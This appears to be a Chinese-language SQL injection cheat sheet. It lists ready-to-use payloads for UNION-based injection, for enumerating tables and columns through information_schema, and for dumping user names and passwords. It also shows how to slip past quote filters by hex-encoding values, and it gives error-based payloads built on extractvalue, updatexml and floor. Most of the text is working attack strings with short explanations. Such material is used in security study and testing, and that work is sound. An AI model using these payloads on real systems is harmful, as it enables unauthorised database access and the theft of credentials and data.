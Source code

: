 ```sql
union select 1, 2 from user where id = 1 or 1=1
```



##### information_schema 注入

存储数据库信息的数据库

> **数据库名**
>
> schemata => schema_name
>
>tables => table_schema
>
>columns => table_schema
>
>**表名**
>
>tables => table_name
>
>columns => table_name
>
>**列名**
>
>columns => columns_name

```sql
select 1,group_concat(table_name) from information_schema.tables where table_schema=database() -- 获取当前数据库中所有表
select 1,group_concat(column_name) from information_schema.columns where table_name=0x7365637265745f666c6167; -- 获得所有列名（字段），table_name 参数进行十六进制编码后可绕过引号被过滤
-1′ or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
-- 下载数据
-1′ union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #  -- 获取表中的字段名
```



##### 函数报错信息注入

>  前提：后台没有屏蔽数据库报错信息，在语法发生错误时会输出到前端

常用报错函数：updatexml(), extractvalue(), floor() [十种MySQL报错注入](https://blog.csdn.net/whatday/article/details/63683187)  [【SQL注入】报错注入姿势总结](http://vinc.top/2017/03/23/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93/)

```sql
and (extractvalue(1,concat(0x7e,(select user()),0x7e)));%23
and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);%23
```

基于函数报错信息获取（select, insert, update, delete)

